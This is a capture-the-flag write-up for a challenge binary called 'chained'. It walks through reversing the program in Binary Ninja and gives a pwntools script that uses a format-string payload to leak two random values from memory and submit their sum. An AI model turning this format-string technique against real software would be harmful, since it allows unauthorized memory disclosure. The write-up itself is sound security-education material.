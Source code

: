 # [chained](https://github.com/ace-lii/ctf_writeups/blob/main/code/format_strings/chained)

* Open ***Binary Ninja*** as usual. Examine the main function to understand the logic. It generates two random numbers below 1000, sums them, and compares the result with the input.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained1.png?raw=true)

* Determine where these two random numbers are stored in memory using Binary Ninja.
Calculate the sum as you obtain values from the "random1/2" addresses. Use ***pwntools*** to play around with the chained.

```
from pwn import *

rdn1 = 0x0804a080
rdn2 = 0x0804a088

i = 13 # why 13 can use similar bash used in task2
sum = 0
p = process("./chained")
name = p32(rdn1) + p32(rdn2) + b" %" + str(i).encode() + b"$s " + b" %" + str(i + 1).encode() + b"$s"

print("\n\n--------------index is {} name is {}".format(i, name))

try:
    while True:
        prompt = p.recvline()
        print("\nprompt {}".format(prompt))

        if b"What is your name?" in prompt:
            p.sendline(name)
            try:
                prompt = p.recvline().strip(b"\x80\xa0\x04\x08\x88\xa0\x04\x08").strip()
                rdn1_val = int(prompt.split(b" ")[0])
                rdn2_val = int(prompt.split(b" ")[2])
                sum = rdn1_val + rdn2_val
                print("sum = {} r1 = {} r2 ={}".format(sum, rdn1_val, rdn2_val))
            except:
                pass
        elif b"Im thinking" in prompt:
            p.sendline(str(sum).encode())
            print(p.recvall())
            break
        elif b"totally wrong" in prompt:
            print("Reached the end of interaction")
        else:
            continue

except EOFError:
    print("EOFError: Process exited unexpectedly")

p.close()
```


![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained2.png?raw=true)

 

 
